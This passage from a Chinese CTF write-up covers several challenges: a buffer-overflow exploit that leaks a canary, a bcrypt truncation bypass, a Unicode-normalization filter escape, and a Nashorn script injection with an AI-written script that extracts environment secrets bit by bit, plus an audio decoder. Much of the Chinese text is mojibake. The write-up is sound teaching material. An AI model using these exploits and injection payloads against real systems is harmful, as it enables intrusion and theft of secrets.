    try:
        p.recvuntil("多少？\n".encode())
        for i in range(100):
            log.info(f'trying {seed} on #{i}')
            p.sendline(guesses[i])
            line = p.recvline(timeout=0.5).decode()
            if 'ä¸æ˜¯è¿™ä¸ªï¼' in line:
                log.warning(f"Seed {seed} failed on guess {i+1}")
                p.close()
                reconnect()
                break
        else:
            log.success(f"Correct seed found: {seed}")
            break
    except EOFError:
        log.warning(f"EOFError with seed {seed}, likely wrong. Reconnecting.")
        p.close()
        reconnect()
        continue
else:
    log.error("Could not find the correct seed!")
    exit()

# --- Leak Canary ---
payload_leak = b'A' * (256 + 9)
log.info("Sending payload to leak canary...")
p.send(payload_leak)
p.recvuntil("你的愿望是：".encode())
received = p.recvuntil("。嗯……æ¢ä¸ªæ„¿æœ›ã€‚\n".encode())

leaked_data = received[len(payload_leak):-len("。嗯……æ¢ä¸ªæ„¿æœ›ã€‚\n".encode())]
log.info(f"Leaked: {len(leaked_data)} {leaked_data} {leaked_data.hex()}")
assert len(leaked_data) == 13

canary = u64(b'\0'+leaked_data[:7])
log.success(f"Leaked canary: {hex(canary)}")

rbp = u64(leaked_data[7:] + b'\0\0')
log.success(f"Leaked rbp: {hex(rbp)}")

# --- Overwrite Return Address ---
padding = b'B' * (256 + 8)
wish_lsb = p64(elf.symbols['wish'])[:1]

payload_exploit = padding + p64(canary) + p64(rbp) + wish_lsb
log.info("Sending exploit payload...")
p.send(payload_exploit)

p.interactive()
```

## å¥³å¨²è¡¥èƒ (Express)

我在查询LLM时犯了一个关键错误：篡改题目。

因为脑抽，我把题目改æˆäº†è¿™æ ·ï¼š

> ```js
>     if (username === 'admin' && password === process.env.SECURE_PASSWORD) {
> ```
>
> $SECURE_PASSWORD is given by
> 
> ```sh
> SECURE_PASSWORD=$(head /dev/urandom | tr -dc A-Za-z0-9 | head -c 16)
> ```
> 
> on server start up.

CTF中ç»å¯¹ä¸è¦è¿™ä¹ˆåšï¼å› ä¸ºè¿™ä¹ˆä¸€æ”¹å°±æ²¡æœ‰ç­”案了，而对此一无所知的å¯æ€œLLMåªèƒ½ç¡¬é’»ç‰›è§’尖了。

äºæ˜¯Gemini一直åšæŒè¦æåŸå‹é“¾æ³¨å…¥ï¼Œä»€ä¹ˆ`__proto__[user]=admin&__proto__[logined]=true`。这ä¸å¤ªå¯èƒ½ï¼Œä½¿ç”¨çš„qs库版本相当新，这ç§æ¼æ´ä¸ä¼šæ”¾ä»»ä¹‹å­˜åœ¨ï¼ŒæŒ–库æ¼æ´ä¹Ÿä¸æ˜¯ç®€å•é¢˜çš„范畴。

我自己想到正确åšæ³•ä¹‹åæ‰æƒ³èµ·è¿™ä¸ªé—®é¢˜ã€‚ä¸è¿‡æˆ‘åæ¥è¯•äº†ä¸€ä¸‹ï¼Œå³ä½¿å‘ŠçŸ¥Gemini这一点，它也åªèƒ½æƒ³åˆ°åŸå‹é“¾æ³¨å…¥ã€‚å¦å¤–DeepSeekåªä¼šèƒ¡è¨€ä¹±è¯­ã€‚

1. 访问`/app.js`，找到其中的密ç ã€‚
2. 在`/`用用户åadmin和密ç ç™»å½•ã€‚
3. 在开å‘者工具中把cookie字段role的值改æˆadmin。
4. 访问`/flag`。

## rickroll (bcrypt)

题都没读，零人工干预一é过 ğŸˆâ€â¬›

<details lang=en>
<summary>Gemini 2.5 Pro Experimental 03-25</summary>

> **User**: This is a CTF challenge.
> 
> ```php
> <?php
> highlight_file(__FILE__);
> 
> $password =
>     "Never gonna give you up," .
>     "Never gonna let you down," .
>     "Never gonna run around and desert you." .
>     "Never gonna make you cry," .
>     "Never gonna say goodbye," .
>     "Never gonna tell a lie and hurt you.";
> assert(strlen($password) === 172);
> 
> if (isset($_GET["input"])) {
>     $input = $_GET["input"]; // try to input something with the same hash
>     $input_hash = password_hash($input, PASSWORD_BCRYPT);
> 
>     if (strlen($input) < strlen($password) / 2) { // but shorter
>         if (strpos($input, "cry") === false) { // and don't cry
>             if (password_verify($password, $input_hash)) {
>                 echo 'impossible!' . PHP_EOL;
>                 include 'rickroll.php';
>                 echo $flag;
>                 die();
>             }
>         }
>     }
> 
>     echo 'hello hacker';
> }
> 
> ?>
> ```
> 
> **Model**: [Thought snipped] Okay, let's analyze the PHP code step by step to find the vulnerability and craft the exploit.
> 
> 1.  **The Goal:** We need to make all the `if` conditions evaluate to `true` to reach the `echo $flag;` line.
> 
> 2.  **Conditions:**
>     *   `isset($_GET["input"])`: We need to provide a GET parameter named `input`.
>     *   `strlen($input) < strlen($password) / 2`: The length of our input must be less than half the length of the `$password`. Since `strlen($password)` is asserted to be 172, `strlen($password) / 2` is 86. So, `strlen($input)` must be less than 86 (i.e., 85 or less).
>     *   `strpos($input, "cry") === false`: Our input string must *not* contain the substring "cry".
>     *   `password_verify($password, $input_hash)`: This is the most interesting condition.
>         *   `$input_hash` is calculated as `password_hash($input, PASSWORD_BCRYPT)`. It's the bcrypt hash of *our* input.
>         *   `password_verify()` checks if the *first* argument (`$password`, the long Rick Astley string) matches the hash provided in the *second* argument (`$input_hash`).
> 
> 3.  **The Vulnerability (`password_verify` and `password_hash` with BCrypt):**
>     *   `password_hash` with `PASSWORD_BCRYPT` has a known limitation: it only considers the **first 72 bytes** of the input string when generating the hash. Any characters beyond the 72nd byte are ignored.
>     *   `password_verify($plain_password, $hash)` works by:
>         1.  Extracting the salt and cost factor from the `$hash` string.
>         2.  Hashing the `$plain_password` using those extracted parameters (salt, cost). Crucially, due to the bcrypt limitation, it only uses the first 72 bytes of `$plain_password` for this internal hashing step.
>         3.  Comparing the internally generated hash with the hash part stored in the `$hash` string.
> 
> 4.  **Exploitation Strategy:**
>     *   We control `$input`.
>     *   We generate `$input_hash` from our `$input`.
>     *   The final check is `password_verify($password, $input_hash)`.
>     *   For this to be true, hashing the first 72 bytes of `$password` (the Rick Astley string) using the salt from `$input_hash` must result in the same hash value stored within `$input_hash`.
>     *   Since `$input_hash` was generated by hashing `$input` (which also has the 72-byte limitation) using its *own* salt, the only way for the `password_verify` check to succeed is if the **first 72 bytes of `$input` are identical to the first 72 bytes of `$password`**.
>     *   If the first 72 bytes match, then:
>         *   `password_hash($input, ...)` produces a hash based on those 72 bytes.
>         *   `password_verify($password, ...)` will effectively hash the *same* 72 bytes (from the start of `$password`) using the salt from the hash of `$input`, resulting in a match.
> 
> 5.  **Crafting the Payload:**
>     *   We need the first 72 bytes of the `$password` string.
>     *   `$password = "Never gonna give you up," . "Never gonna let you down," . "Never gonna run around and desert you." . ...`
>     *   Let's concatenate and take the first 72 characters:
>         `"Never gonna give you up,Never gonna let you down,Never gonna run around and desert you."`
>         Length of first part: 25
>         Length of second part: 26
>         Total so far: 51
>         We need 72 - 51 = 21 characters from the third part: `"Never gonna run aroun"` (note the trailing 'd' is the 72nd char).
>         Wait, let's recalculate carefully including the concatenated string directly.
>         ```php
>         $p = "Never gonna give you up," . "Never gonna let you down," . "Never gonna run around and desert you.";
>         echo substr($p, 0, 72);
>         // Output: Never gonna give you up,Never gonna let you down,Never gonna run around a
>         ```
>     *   So, our required input is: `Never gonna give you up,Never gonna let you down,Never gonna run around a`
> 
> 6.  **Checking Constraints:**
>     *   `$input = "Never gonna give you up,Never gonna let you down,Never gonna run around a"`
>     *   `strlen($input)` is 72. Is 72 < 86? Yes.
>     *   Does `$input` contain "cry"? No, the word "cry" appears later in the full password string, not within the first 72 bytes. `strpos($input, "cry") === false` is true.
> 
> 7.  **Final Request:**
>     Send a GET request to the challenge URL with the `input` parameter set to the 72-byte prefix we found. URL encoding spaces and commas is good practice:
> 
>     `?input=Never+gonna+give+you+up%2CNever+gonna+let+you+down%2CNever+gonna+run+around+a`
> 
> This input should satisfy all conditions and trigger the flag output.

</details>

数错字数是常有的事，幸è¿çš„是它数少了，而这题给的容错空间åˆå¾ˆå¤§ã€‚

## PyCalc

å­—æ¯å…¨ç¦äº†ï¼Œç¬¦å·ä¹Ÿç¦äº†ä¸€å †ï¼ŒASCIIå¯è§åŒºåªå‰©ä¸‹`+-*/().`ã€æ•°å­—ã€ç©ºæ ¼äº†ã€‚Python作为一ç§é‡å­—æ¯çš„语言，è¿[PyFuck](https://github.com/kuangkzh/PyFuck)也需è¦è‡³å°‘三个字æ¯exc。字æ¯è¢«å®Œå…¨ç¦ç”¨çš„è¯ï¼Œå°±æ²¡æœ‰ç»•è¿‡çš„å¯èƒ½æ€§äº†ã€‚

看上å»æœ‰ä¸ª`debug=True`å…¶å®æ²¡ç”¨ï¼Œå› ä¸º`flask run`æ—¶ä¸èµ°`__name__ == '__main__'`è¿™æ¡é“。

我光知é“Python支æŒUnicode标识符（我有个ç§æœ‰é¡¹ç›®é‡Œå…¨æ˜¯ä¸­æ–‡å˜é‡å（ä¸æ˜¯æ‹¼éŸ³ï¼‰ï¼‰ã€‚éšä¾¿æ‰“个全角字符进å»ï¼ŒæŠ¥é”™ä¿¡æ¯é‡Œå˜æˆåŠè§’了ï¼æ²¡æƒ³åˆ°Python还会对标识符åšNFKD标准化。NFKD是个很强的标准化方案，会把全角转æˆåŠè§’，以åŠå»æ‰å¾ˆå¤šèŠ±é‡Œèƒ¡å“¨çš„东西。

```py
ºₚⅇï½(ᶜʰʳ(47)+ğœğ¡ğ«(102)+ğ’¸ğ’½ğ“‡(108)+ğ•”ğ•™ğ•£(97)+ğ–ˆğ–ğ–—(103)).ğ—‹ğ—²ğ˜¢ğ™™()
```

这么抽象的代ç è¿˜èƒ½è¿è¡Œä¹Ÿæ˜¯è›®æŠ½è±¡çš„。

## SmartGrader (Nashorn)

Java版本好新，我电脑上的所有java.exe都ä¸èƒ½è¿è¡Œï¼Œè¿˜å¾—å†ä¸‹ä¸€ä¸ªOpenJDK 23 😾

在[Decompiler.com](https://www.decompiler.com/)å编译åçš„BOOT-INF/classes/com/sjtuctf2025/smartgrader/controller/GraderController.java文件中找到关键注入点：

```java
      if (leftSymbol.length() <= 24 && rightSymbol.length() <= 24) {
         String expr = "(" + leftScore + leftSymbol + "x && x" + rightSymbol + rightScore + ")";
         ScriptEngineManager manager = new ScriptEngineManager();
         ScriptEngine engine = manager.getEngineByName("js");
         engine.put("x", score);

         try {
            Object result = engine.eval(expr);
            return result.toString().equals("true");
```

是的，这确å®æ˜¯ä¸€é“JavaScript web题……

```
(⟨浮点数⟩⟨≤24字符⟩x && x⟨≤24字符⟩⟨浮点数⟩)
```

题外è¯ï¼šæµè§ˆå™¨å†…外已相隔一层å¯æ‚²çš„åšéšœå£äº†ã€‚[æµè§ˆå™¨å†…，HTTP/3腾云驾雾；æµè§ˆå™¨å¤–，HTTP/1.1根深蒂固。](https://httptoolkit.com/blog/http3-quic-open-source-support-nowhere/)æµè§ˆå™¨å†…，Chrome支æŒWebPå·²å年有余；æµè§ˆå™¨å¤–，è¿å›¾ç‰‡æŸ¥çœ‹å™¨çš„支æŒåº¦éƒ½æˆé—®é¢˜ã€‚æµè§ˆå™¨å†…，ES2025新特性敢想就敢用；本题的Nashornå´åªæ”¯æŒES5（以åŠä¸€å †å¥‡è‘©æ‰©å±•ï¼‰ã€‚

比如，虽然异常被æ•è·äº†ï¼Œä½†é€šè¿‡ä¸‹é¢è¿™ä¸ªè¡¨è¾¾å¼è¿˜æ˜¯å¯ä»¥stack overflow产生第三ç§è¾“出。

```js
(114514.0),/*x && x*/(function a()a())()//1919810.0)
```

`function a()a()`是[Nashornæ供的扩展语法](https://wiki.openjdk.org/display/Nashorn/Nashorn+extensions)；除此之外，文档åŒé¡µä¸Šè¿˜æœ‰è¯»å–ç¯å¢ƒå˜é‡çš„示例代ç ã€‚

```js
var System = Java.type("java.lang.System")

for each (e in System.env.entrySet()) {
  print(e.key, "=", e.value)
}
```

`Java.type("java.lang.System").env`肯定超字数。文档的å¦ä¸€äº›ç¤ºä¾‹ä¸­æ示`java`对象å¯ä»¥ç›´æ¥ä½¿ç”¨ï¼Œè¿›ä¸€æ­¥æµ‹è¯•è¡¨æ˜æ‹¿åˆ°flagåªéœ€è¦`java.lang.System.env.FLAG`。

因为唯一的输出是一个布尔值（栈溢出超字数，ä¸è®ºï¼‰ï¼Œä½¿ç”¨äºŒåˆ†æ³•é€ä½è¯»å–。

因为到了这一步，任务已ç»å˜æˆäº†ä¼ ç»Ÿç¼–ç ï¼Œä¸éœ€è¦æ€è€ƒï¼Œæ‰€ä»¥æˆ‘试了试GPT-4o-mini，结æœæ•ˆæœå¾ˆçƒ‚。还得是高级点的模å‹ã€‚

<details lang=en>
<summary>DeepSeek-V3</summary>

> **User**: In a CTF challenge, an endpoint queried like this returns whether the first character of the flag (`FLAG[0]`) is less than "P".
> 
> ```js
> fetch('/api/grader', {
>   headers: {'content-type': 'application/json'},
>   body: JSON.stringify({scores: [1919810], rules:[{
>     grade: '',
>     leftScore: 114514, leftSymbol: ',java.lang.System.env./*',
>     rightSymbol: '*/FLAG[0]<"P")//', rightScore: 0,
>   }]}),
>   method: 'POST',
> })
> ```
> 
> The endpoint returns JSON `[""]` if the first character is indeed less than "P", and `["N/A"]` otherwise.
> 
> Write code to bisect and print the flag by requesting the endpoint repeatedly until the end of the flag (a curly bracket `}`) is reached.
> 
> **Model**: [废è¯]
> 
> ```python
> import requests
> import string
> 
> def check_char_less_than(pos, char):
>     url = '/api/grader'
>     headers = {'Content-Type': 'application/json'}
>     
>     # Construct the comparison string for the current position
>     left_symbol = f',java.lang.System.env./*'
>     right_symbol = f'*/FLAG[{pos}]<"{char}")//'
>     
>     payload = {
>         "scores": [1919810],
>         "rules": [{
>             "grade": "",
>             "leftScore": 114514,
>             "leftSymbol": left_symbol,
>             "rightSymbol": right_symbol,
>             "rightScore": 0
>         }]
>     }
>     
>     response = requests.post(url, headers=headers, json=payload)
>     return response.json() == [""]
> 
> def find_char(pos):
>     # Possible characters in the flag (assuming it's printable ASCII)
>     chars = string.printable
>     low = 0
>     high = len(chars) - 1
>     
>     while low <= high:
>         mid = (low + high) // 2
>         current_char = chars[mid]
>         
>         if check_char_less_than(pos, current_char):
>             high = mid - 1
>         else:
>             low = mid + 1
>     
>     # After loop, high is the largest index where condition is true
>     if high < 0:
>         return chars[0]  # Edge case - first character
>     return chars[high]
> 
> def extract_flag():
>     flag = ""
>     pos = 0
>     
>     while True:
>         current_char = find_char(pos)
>         flag += current_char
>         print(f"Found so far: {flag}")
>         
>         if current_char == '}':
>             break
>         pos += 1
>     
>     return flag
> 
> if __name__ == "__main__":
>     final_flag = extract_flag()
>     print(f"Extracted flag: {final_flag}")
> ```
> 
> [废è¯]

</details>

我怀疑CTF关键è¯ç»‘定Python。å³ä½¿ç»™çš„代ç æ˜¯JS也还è¦åšæŒå†™Pythonå—，哈基seek，你这家伙……

```diff python
+import json

     # Construct the comparison string for the current position
     left_symbol = f',java.lang.System.env./*'
-    right_symbol = f'*/FLAG[{pos}]<"{char}")//'
+    right_symbol = f'*/FLAG[{pos}]<{json.dumps(char)})//'

     # Possible characters in the flag (assuming it's printable ASCII)
-    chars = string.printable
+    chars = ''.join(map(chr, range(32, 127)))
```

## NoisyCat (FSK)

é™æ€é“¾æ¥çš„程åºé‡ŒC标准库函数都识别ä¸å‡ºæ¥ã€‚é ç­¾åå’Œå‚数猜。

```c
int counter;

void __fastcall write_bit(int bit, float16_t *output_buffer) {
	int i; // ebx
	float v4; // xmm7_4
	float v5; // xmm9_4
	float v6; // xmm0_4
	float v7; // xmm6_4
	for (int i = 0; i < 40; i++) {
		v5 = 6.283185307179586 / (bit ? 40.0 : 21.818182);
		v6 = sinf((float)(*(float *)&dword_140027CC8 * 6.283185307179586) + (float)((float)i++ * v5));
		output_buffer[counter++] = sub_140008A04(v6 * 32767.0);
	}
	v7 = (float)(40.0 / v4) + *(float *)&dword_140027CC8;
	sub_140008A60(v7, 1.0);
	dword_140027CC8 = LODWORD(v7);
}

void __fastcall sub_140001008(int input_size, unsigned char *input_buffer, unsigned char *output_buffer) {
	write_bit(0, output_buffer);
	write_bit(0, output_buffer);
	for (int i = 0; i < input_size; i++) {
		write_bit(1, output_buffer);
		unsigned w = input_buffer[v7];
		for (int j = 0; j < 8; j++)
			write_bit((w >> j) & 1, output_buffer);
		write_bit(0, output_buffer);
	}
	write_bit(0, output_buffer);
	write_bit(0, output_buffer);
}

int __cdecl main(int argc, const char **argv, const char **envp) {
  FILE *input_file; // rdi
  FILE *output_file; // rbp
  size_t input_size; // r14
  void *input_buffer; // rsi
  void *output_buffer; // rax & rbx

  if (argc > 2) {
    input_file = fopen(argv[1], "rb");
    if (input_file) {
      output_file = fopen(argv[2], "wb");
      if (output_file) {
        fseek(input_file, 0, SEEK_END);
        input_size = ftell(input_file);
        fseek(input_file, 0, SEEK_SET);
        input_buffer = j__malloc_base(input_size);
        output_buffer = j__malloc_base(800 * (int)input_size + 320);
        output_buffer = output_buffer;
        if (input_buffer && output_buffer) {
          fread(input_buffer, input_size, 1ui64, input_file);
          fclose(input_file);
          sub_140001008((unsigned int)input_size, input_buffer, output_buffer);
          fwrite(output_buffer, 800 * (int)input_size + 320, 1ui64, output_file);
          fclose(output_file);
          free(input_buffer);
          free(output_buffer);
          return 0;
        }
        printf("failed to allocate memory\n");
        free(input_buffer);
        free(output_buffer);
      } else {
        printf("can not open output file: %s\n", argv[2]);
        fclose(input_file);
      }
    } else printf("can not open input file: %s\n", argv[1]);
  } else printf("usage: %s <input> <output>\n", *argv);
  return -1;
}
```

两个数字40å’Œ21+9/11，一个ä½é¢‘一个高频也ä¸çŸ¥é“哪个对应哪个，ä¸ç”¨ç®¡ã€‚40采样/ä½ï¼Œç”¨ä»»æ„音频编辑工具在data.wav里å¯ä»¥æ¸…晰地看到开头80个采样是高频，æ¥ä¸‹æ¥40个采样是ä½é¢‘，所以0是高频，1是ä½é¢‘。

<!---->

<details lang=en>
<summary>Gemini 2.5 Pro Experimental 03-25</summary>
<blockquote>

**User**: I've got a WAV file in 16-bit signed format. It consists of sine waves of two different frequencies. The higher frequency represents 0, the lower 1. They last 40 samples per bit.

The file begins and ends with two 0 bits. For each byte to transmit, it begins with a 1, sends the 8 bits in LSB-first order, and ends with a 0. For example, bytes 55 AA are encoded as follows: 00 1 1010 1010 0 1 0101 0101 0 00.

Write a program to decode the audio named NoisyCat.wav into a file NoisyCat.bin.

**Model**: [æ€è€ƒ] [废è¯]

```python
import wave
import struct
import numpy as np
import os

# --- Configuration ---
INPUT_WAV_FILE = "NoisyCat.wav"
OUTPUT_BIN_FILE = "NoisyCat.bin"
SAMPLES_PER_BIT = 40
HIGH_FREQ_BIT = '0'
LOW_FREQ_BIT = '1'

# --- Helper Functions ---

def analyze_chunk_frequency(chunk, sample_rate):
    """Calculates the dominant frequency in an audio chunk using FFT."""
    if len(chunk) == 0:
        return 0
        
    # Apply FFT
    fft_result = np.fft.fft(chunk)
    # Get frequencies corresponding to FFT bins
    # We only need the positive frequencies (first half of FFT result)
    fft_freqs = np.fft.fftfreq(len(chunk), 1.0 / sample_rate)
    
    # Find the peak frequency (ignoring DC component at index 0)
    # Consider only positive frequencies
    positive_freq_indices = np.where(fft_freqs > 0)[0]
    if len(positive_freq_indices) == 0:
        # Handle case with very short chunks or only DC component
        # Or maybe if the fundamental is actually 0 Hz (silence) after filtering?
        # Let's look at the magnitude of the DC component vs others.
        # A simpler approach for now: check magnitude spectrum directly
        magnitudes = np.abs(fft_result)
        # Find peak magnitude index (excluding DC)
        if len(magnitudes) > 1:
           peak_index = np.argmax(magnitudes[1:]) + 1
        else:
           peak_index = 0 # Should not happen with 40 samples
        return abs(fft_freqs[peak_index]) # Return absolute frequency


    magnitudes = np.abs(fft_result[positive_freq_indices])
    
    if len(magnitudes) == 0: return 0 # Should not happen ideally

    peak_index_in_positive = np.argmax(magnitudes)
    peak_freq_index = positive_freq_indices[peak_index_in_positive]
    dominant_frequency = fft_freqs[peak_freq_index]
    
    return abs(dominant_frequency)

def identify_frequencies(samples, sample_rate, chunk_size):
    """
    Identifies the high and low frequencies based on the initial known bits (001...).
    Assumes the first bit (0-39) is '0', second (40-79) is '0', 
    and third (80-119) is '1' (start bit of first byte).
    """
    print("Identifying frequencies...")
    freqs_0 = []
    freqs_1 = []

    # Analyze first bit (expected '0')
    chunk0 = samples[0 * chunk_size : 1 * chunk_size]
    freq0 = analyze_chunk_frequency(chunk0, sample_rate)
    if freq0 > 0: freqs_0.append(freq0)
    print(f"  Chunk 0 (expected '0') freq: {freq0:.2f} Hz")
    
    # Analyze second bit (expected '0')
    chunk1 = samples[1 * chunk_size : 2 * chunk_size]
    freq1 = analyze_chunk_frequency(chunk1, sample_rate)
    if freq1 > 0: freqs_0.append(freq1)
    print(f"  Chunk 1 (expected '0') freq: {freq1:.2f} Hz")

    # Analyze third bit (expected '1' - start bit)
    chunk2 = samples[2 * chunk_size : 3 * chunk_size]
    freq2 = analyze_chunk_frequency(chunk2, sample_rate)
    if freq2 > 0: freqs_1.append(freq2)
    print(f"  Chunk 2 (expected '1') freq: {freq2:.2f} Hz")

    if not freqs_0 or not freqs_1:
        raise ValueError("Could not reliably identify both frequencies from initial bits.")

    # Use the average of identified frequencies for '0'
    high_freq_cand = np.mean(freqs_0)
    low_freq_cand = np.mean(freqs_1) # Only one sample for '1' initially

    # Ensure high is actually higher than low
    if high_freq_cand < low_freq_cand:
        high_freq_cand, low_freq_cand = low_freq_cand, high_freq_cand
        print("Warning: Initial frequency analysis suggested low > high. Swapped.")
        
    print(f"  Identified High Freq ('0'): ~{high_freq_cand:.2f} Hz")
    print(f"  Identified Low Freq  ('1'): ~{low_freq_cand:.2f} Hz")

    if high_freq_cand == low_freq_cand:
         raise ValueError("Identified frequencies are too close or identical.")
         
    return low_freq_cand, high_freq_cand

# --- Main Decoding Logic ---

def decode_wav_to_bin(wav_path, bin_path, chunk_size):
    """Decodes the WAV file according to the specified FSK scheme."""
    
    if not os.path.exists(wav_path):
        print(f"Error: Input WAV file not found: {wav_path}")
        return

    try:
        # 1. Read WAV file
        with wave.open(wav_path, 'rb') as wf:
            num_channels = wf.getnchannels()
            sample_width = wf.getsampwidth() # Bytes per sample
            frame_rate = wf.getframerate()
            num_frames = wf.getnframes()
            raw_frames = wf.readframes(num_frames)

            print(f"Opened WAV: {wav_path}")
            print(f"  Channels: {num_channels}")
            print(f"  Sample Width: {sample_width*8}-bit")
            print(f"  Frame Rate: {frame_rate} Hz")
            print(f"  Num Frames: {num_frames}")

            if sample_width != 2:
                raise ValueError("Unsupported sample width. Expected 16-bit (2 bytes).")
            
            # Using '<h' for little-endian signed 16-bit integer
            format_string = f'<{num_frames * num_channels}h'
            
            # 2. Unpack Samples
            try:
                 unpacked_samples = struct.unpack(format_string, raw_frames)
            except struct.error as e:
                 print(f"Error unpacking samples: {e}")
                 print(f"Expected {len(format_string)//2} samples, got {len(raw_frames)//sample_width}")
                 # Try reading fewer frames if unpacking fails near the end?
                 # This might indicate a corrupted file or miscalculation
                 return

            # Convert to numpy array for easier processing
            samples = np.array(unpacked_samples)

            # If stereo, take only the first channel (or average them)
            if num_channels > 1:
                print("  Stereo detected, using only the first channel.")
                samples = samples[0::num_channels] # Take every Nth sample, starting from 0
                num_frames = len(samples) # Update num_frames for the single channel
                
            if num_frames < 3 * chunk_size: # Need at least initial bits to identify freqs
                 raise ValueError("Audio file too short to decode.")

    except wave.Error as e:
        print(f"Error reading WAV file: {e}")
        return
    except FileNotFoundError:
        print(f"Error: Input WAV file not found: {wav_path}")
        return
    except ValueError as e:
        print(f"Error: {e}")
        return

    # 3. Identify Frequencies
    try:
        f_low, f_high = identify_frequencies(samples, frame_rate, chunk_size)
        # Define a threshold halfway between the identified frequencies
        freq_threshold = (f_high + f_low) / 2.0
        print(f"  Frequency Threshold: {freq_threshold:.2f} Hz")
    except ValueError as e:
        print(f"Frequency identification failed: {e}")
        return
        
    # 4. Process Chunks & Decode Bits
    print("Decoding bits...")
    decoded_bits = []
    num_chunks = num_frames // chunk_size
    
    for i in range(num_chunks):
        start_idx = i * chunk_size
        end_idx = start_idx + chunk_size
        chunk = samples[start_idx:end_idx]

        dominant_freq = analyze_chunk_frequency(chunk, frame_rate)

        # Simple classification based on threshold
        if dominant_freq > freq_threshold:
            decoded_bits.append(HIGH_FREQ_BIT) # '0'
        else:
            # Also classify low amplitude chunks or failed analysis as '1' (low freq)?
            # Or should we have a minimum amplitude check?
            # Assuming low frequency is the default or more likely if uncertain
             decoded_bits.append(LOW_FREQ_BIT) # '1'
             
        # Optional: Print progress
        # if i % 100 == 0:
        #    print(f"  Processed chunk {i}/{num_chunks}, Freq: {dominant_freq:.2f} Hz -> Bit: {decoded_bits[-1]}")


    bits_string = "".join(decoded_bits)
    print(f"Decoded {len(bits_string)} bits.")
    # print(f"  Bitstream sample (first 100): {bits_string[:100]}") # For debugging

    # 5. Frame Parsing & Byte Assembly
    print("Parsing frames and assembling bytes...")
    decoded_bytes = bytearray()
    current_pos = 0

    # Find the initial "00" sync sequence that precedes the first start bit "1"
    try:
        # Look for the pattern '001' which marks end of preamble and start of first byte
        start_marker = "001" 
        frame_start_index = bits_string.index(start_marker)
        # Position the pointer *after* the '00' preamble, at the first '1' (start bit)
        current_pos = frame_start_index + len(start_marker) -1 
        print(f"Found start marker '{start_marker}' at index {frame_start_index}.")
    except ValueError:
        print("Error: Could not find initial '001' sequence. Cannot parse frames.")
        return

    byte_count = 0
    while current_pos < len(bits_string):
        # Expected frame structure: 1 (start) + 8 data (LSB first) + 0 (stop) = 10 bits
        frame_len = 1 + 8 + 1
        
        if current_pos + frame_len > len(bits_string):
            print(f"Warning: Incomplete frame at the end (pos {current_pos}). Stopping.")
            break 

        # Check for Start Bit ('1')
        if bits_string[current_pos] != '1':
            print(f"Warning: Expected start bit '1' at position {current_pos}, found '{bits_string[current_pos]}'. Skipping potential byte.")
            # Try to find the next '1' to potentially resync? Or just advance?
            # Let's advance by one bit and try again. A more robust system might search.
            current_pos += 1
            continue 

        # Extract data bits (LSB first)
        data_bits_lsb = bits_string[current_pos + 1 : current_pos + 1 + 8]
        
        # Check for Stop Bit ('0')
        if bits_string[current_pos + 1 + 8] != '0':
            print(f"Warning: Expected stop bit '0' at position {current_pos + 9}, found '{bits_string[current_pos + 9]}'. Frame skipped.")
            # Advance past this potentially corrupted frame
            current_pos += frame_len
            continue

        # If start and stop bits are correct, process the data bits
        # Reverse data bits because they are LSB-first
        data_bits_msb = data_bits_lsb[::-1]
        
        # Convert binary string to integer byte value
        try:
            byte_value = int(data_bits_msb, 2)
            decoded_bytes.append(byte_value)
            byte_count += 1
        except ValueError:
            print(f"Warning: Could not convert data bits '{data_bits_msb}' to byte at position {current_pos + 1}. Frame skipped.")
            # Fall through to advance pointer

        # Advance pointer to the start of the next potential frame
        current_pos += frame_len

    print(f"Assembled {byte_count} bytes.")

    # Check for trailing "00" (optional but good validation)
    # Find where the last valid byte ended
    end_of_last_byte = frame_start_index + len(start_marker) -1 + byte_count * frame_len
    remaining_bits = bits_string[end_of_last_byte:]
    if remaining_bits.startswith("00"):
         print("Confirmed trailing '00'.")
    elif len(remaining_bits) >=2:
         print(f"Warning: Did not find expected trailing '00'. Found '{remaining_bits[:2]}' instead.")
    elif len(remaining_bits) > 0:
         print(f"Warning: Trailing bits '{remaining_bits}' too short for '00'.")


    # 6. Write Output
    try:
        with open(bin_path, 'wb') as bf:
            bf.write(decoded_bytes)
        print(f"Successfully decoded audio to: {bin_path}")
    except IOError as e:
        print(f"Error writing output file {bin_path}: {e}")


# --- Run the Decoder ---
if __name__ == "__main__":
    decode_wav_to_bin(INPUT_WAV_FILE, OUTPUT_BIN_FILE, SAMPLES_PER_BIT)
```

[废è¯]

</blockquote>
</details>

程åºä¸éœ€è¦ä»»ä½•ä¿®æ”¹å°±èƒ½æ­£ç¡®è¿è¡Œã€‚

```console
$ python NoisyCat.py
Opened WAV: NoisyCat.wav
  Channels: 1
  Sample Width: 16-bit
  Frame Rate: 48000 Hz
  Num Frames: 94960
Identifying frequencies...
  Chunk 0 (expected '0') freq: 2400.00 Hz
  Chunk 1 (expected '0') freq: 2400.00 Hz
  Chunk 2 (expected '1') freq: 1200.00 Hz
  Identified High Freq ('0'): ~2400.00 Hz
  Identified Low Freq  ('1'): ~1200.00 Hz
  Frequency Threshold: 1800.00 Hz
Decoding bits...
Decoded 2374 bits.
Parsing frames and assembling bytes...
Found start marker '001' at index 0.
Warning: Incomplete frame at the end (pos 2372). Stopping.
Assembled 237 bytes.
Confirmed trailing '00'.
Successfully decoded audio to: NoisyCat.bin
```

```
                                
And cat said, "Let there be flag," and there was flag.
0ops{057d572f-92e2-4830-8095-f368a624e746}
Cat saw that the flag was good, and cat encoded the flag into the sound.
                                
```

## NoisyCat2

加强了，但åªåŠ äº†ä¸€ç‚¹ç‚¹ã€‚

用任æ„音频编辑软件将音频对é½åˆ°40采样网格，å†æ¬¡è¿è¡Œç›¸åŒè§£ç è„šæœ¬ã€‚因为解ç è„šæœ¬åŸºäºé›¶ç‚¹ä¸ªæ•°åˆ¤å®šï¼Œå“度没有影å“。

```
                                
å°çŒ«æ‹¿ç¼ºå‹¤åå•éª—大学生是签到表
å°çŒ«å«é†’没课èˆå‹éª—她早八è¦è¿Ÿåˆ°
å°çŒ«æ‰“å¼€åŒå­¦è®ºæ–‡é¦–行缩进全删æ‰
å°çŒ«æ¸…空å‚考文献让èˆå‹å›çŸ¥ç½‘找

0ops{097d5133-067f-4701-bb24-4dbf14b98bb1}

å猫ï½å猫ï½å¹²äº†å事就逃跑ï½
å猫ï½å猫ï½è‰¯å¿ƒéƒ½è¢«ç‹—åƒæ‰ï½
                                
```

## SleepyGame (XOR)

<aside>* 解出äºæ示放出之å‰</aside>

æ˜ç¡æ¸¸æˆï¼ˆæ„味深）

